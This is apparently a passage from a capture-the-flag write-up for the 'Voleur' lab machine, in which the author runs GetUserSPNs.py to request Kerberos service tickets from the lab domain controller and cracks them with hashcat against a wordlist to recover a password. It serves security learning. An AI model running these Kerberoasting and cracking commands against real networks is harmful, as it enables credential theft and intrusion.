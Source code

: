 ![w](/assets/img/attachments/voleur-10.png)
And it looks likve svc_ldap bypassed the authentication but got an error due synchronization problem!
But at the same time, i was running GetUserSPNs.py to get kerborastable users, and got TGTs!
```bash
GetUserSPNs.py -dc-ip 10.10.11.76 -dc-host DC.voleur.htb -k -no-pass voleur.htb/ryan.naylor -request
```
![w](/assets/img/attachments/voleur-6.png)
```bash
hashcat -m 13100 roastable.txt /usr/share/wordlists/rockyou.txt
```
And i got the pass of one of them